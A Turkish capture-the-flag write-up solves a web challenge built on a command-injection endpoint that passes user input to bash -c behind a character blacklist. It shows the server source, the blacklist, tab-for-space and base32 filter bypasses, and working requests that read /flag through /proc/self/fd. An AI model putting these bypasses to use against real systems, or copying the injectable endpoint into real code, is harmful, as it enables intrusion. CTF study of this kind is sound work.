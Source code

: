# Bizde Beklemiyorduk - Web 500


```
kendini hacker sanan, 3 harfli 4 harfli cok sayida sertifikasi olan kardesimiz bir website yapmis.
akli sira oradan buradan duydugu tum kelimeleri wordliste eklemis ve blacklist yapmis.
kendini cok guvende hisseden arkadasimiza acilen ders vermeniz gerekiyor.
tek amacin var, o da /flag dosyasini okumak, al bi de burdan yak sadrazamim id
```

![](soruIci2.png )

Yani blacklist ile filtreleme vardı. Tabiki ilk olarak denediğimiz şey ls,cat,cd ve whitespace idi.
Fakat sadece ls serbestti. Hmene enumurate etmeye başladık. İlk bilindik  special karakterleri ve harflerı forcelamaya başladık. (bknz. [./sChar.txt](sChar.txt) )

![](burp1.png )

```
%09 ! , - . 0-9 A-Z {}

```

bu karakterler serbestti

Sonra linux command brute force yapmaya basladik . dizinde server.py diye bir dosya oldugunu zaten biliyorduk. onu okumayi dendedik.[./lin.txt](lin.txt) )

![](burp2.png )

`base32` ve `{re,}{v,}` serbestti `base32` uzerinden yurumeye devam ettik.




``` python
import os
import commands
from flask import Flask, request
app = Flask(__name__)

flag = open('/flag', 'r')

blist = (
    "'",
    '\\',
    '176.233',
    'scp',
    'sed',
    'diff',
    'ps',
    'dd',
    'sleep',
    '-r',
    '-R',
    'power',
    'core',
    'less',
    ',/',
    '"',
    '$',
    '`',
    '&',
    '|',
    '*',
    '?',
    '#',
    '%',
    '+',
    '=',
    '>',
    '<',
    '[',
    ']',
    '^',
    '_',
    '~',
    '\x0a',
    '\x0d',
    ';',
    '(',
    ')'
    'pwd',
    ' ',
    'base64',
    'dev',
    'sys',
    'GET',
    'var',
    ':',
    'pip',
    'cp',
    'g',
    'h',
    'j',
    'k',
    'm',
    'w',
    'n',
    'u',
    'x',
    'vi',
    't',
    'rev',
    'z'
)

def before_exec(cmd):
    for b in blist:
        if b in cmd:
            return False
    return True

def after_exec(res):
    if ('REtIT1M='.decode('base64') in res) or ('176.233' in res) or ('U09IS0Q='.decode('base64') in res) or ('MDQ1NTA0'.decode('base64') in res) or ('NGI0NA=='.decode('base64') in res) or ('MDAwMA=='.decode('base64') in res):
        return False
    return True

@app.route("/")
def hello():
    comment = 'kendini hacker sanan, 3 harfli 4 harfli cok sayida sertifikasi olan kardesimiz bir website yapmis.<br>'
    comment += 'akli sira oradan buradan duydugu tum kelimeleri wordliste eklemis ve blacklist yapmis.<br>'
    comment += 'kendini cok guvende hisseden arkadasimiza acilen ders vermeniz gerekiyor.<br>'
    comment += 'tek amacin var, o da /flag dosyasini okumak, al bi de burdan yak sadrazamim <a href="/exec?cmd=id">id</a>'
    return comment

@app.route("/exec")
def exec_cmd():
    cmd = request.args.get('cmd', 'id')
    if not cmd:
        cmd = 'id'

    if len(cmd) > 36:
        return "olmadi, cok uzun bu yemezler" + '<br><br><br><img src="https://i.hizliresim.com/nOR191.jpg">'

    status = before_exec(cmd)
    if not status:
        return "gene olmadi bu, ilk gonderdigin request sikintili :(" + '<br><br><br><img src="https://i.hizliresim.com/nOR191.jpg">'

    code, result = commands.getstatusoutput("bash -c '" + cmd + "'")
    status = after_exec(result)
    if not status:
        return "tam oluyordu yoldan dondu, output sikintili :(" + '<br><br><br><img src="https://i.hizliresim.com/Lby9NJ.jpg">'

    result += '<br><br><img src="https://i.hizliresim.com/Pl0X2v.jpg">'

    return result

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=80, debug=False)

```

Blacklist gorunuyordu ama blacklistte `g` harfi yasakli oldugundan flag yazamazdik. Bu yuzden kodu incelemeye basladik. Ve bir satir dikkatimiz cekti.

``` python
flag = open('/flag', 'r')
```

`flag` diye bir degiskenin icine flag atanmisti. Fakat sorun bizim bu degiskeni nasik okuyacagimizdi. BIraz arastirdik
Linux server oldugundan `/proc/self/fd`(/self = background ) dosya yolunda bizim backgroundda calisan procceslerin bilgilerinin yazdigini ogrendik.( cumleyi kuramadim ama olsun )  

ve oraya ls ile bakalim dedik.

```bash
view-source:54.147.235.12/exec?cmd=ls%09-l%09/proc/self/fd

total 0
lr-x------ 1 nobody nogroup 64 Feb 14 13:09 0 -> pipe:[727885]
l-wx------ 1 nobody nogroup 64 Feb 14 13:09 1 -> pipe:[1261887]
l-wx------ 1 nobody nogroup 64 Feb 14 13:09 2 -> pipe:[1261887]
lr-x------ 1 nobody nogroup 64 Feb 14 13:09 26 -> /flag
lr-x------ 1 nobody nogroup 64 Feb 14 13:09 3 -> /proc/11448/fd
```

Ve flag orada duruyordu
```
view-source:http://54.147.235.12/exec?cmd=base32%09/proc/self/fd/26

IRFUQT2TL55XGMDOONPW6ZS7MQZW43RRONPXEMLUMNUDG7IKBIFA====
```

ve decode ettigimizde bayrak `DKHOS_{s0ns_of_d3nn1s_r1tch3}`
